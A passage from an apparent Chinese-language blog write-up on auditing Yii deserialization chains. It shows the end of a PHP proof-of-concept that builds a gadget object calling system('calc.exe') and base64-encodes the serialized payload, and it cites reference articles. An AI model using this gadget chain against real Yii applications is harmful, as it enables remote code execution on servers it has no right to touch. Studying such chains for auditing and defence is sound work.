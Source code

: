     	class IndexAction{
        	public $checkAccess;
        	public $id;
        	public function __construct(){
            	$this->checkAccess='system';
            	$this->id='calc.exe';
        	}
    	}
	}
	namespace {
    	$Troy3e2 = new Symfony\Component\String\UnicodeString();
    	echo base64_encode(serialize($Troy3e2));
	}


就先写三条吧，毕竟不是总结yii的博客，只是学习一下审计。yii的这几条链子还是非常简单的，基本没有难度。

参考：
https://xz.aliyun.com/t/8082
http://www.wangqingzheng.com/anquanke/29/217929.html